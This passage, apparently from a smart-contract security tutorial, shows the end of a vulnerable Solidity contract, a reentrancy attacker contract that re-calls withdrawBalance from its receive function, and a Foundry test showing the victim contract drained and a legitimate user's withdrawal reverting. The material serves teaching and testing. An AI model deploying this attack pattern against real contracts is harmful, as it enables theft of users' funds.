 ```solidity
        userBalance[msg.sender] = 0;
    }
}
```

Contract of the attacker (maybe test it on Remix)

```solidity
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Using Foundry to prove it

```solidity
function test_reenter() public {
        // User deposits 5 ETH
        vm.prank(victimUser);
        victimContract.deposit{value: amountToBeDeposited}();

        // We assert the user has their balance
        assertEq(victimContract.userBalance(victimUser), amountToBeDeposited);

        // // Normally, the user could now withdraw their money if they like
        // vm.prank(victimUser);
        // victimContract.withdrawBalance();

        // But... we get attacked!
        vm.prank(attackerUser);
        attackerContract.attack{value: 1 ether}();

        assertEq(victimContract.userBalance(victimUser), amountToBeDeposited);
        assertEq(address(victimContract).balance, 0);

        vm.prank(victimUser);
        vm.expectRevert();
        victimContract.withdrawBalance();
    }
```
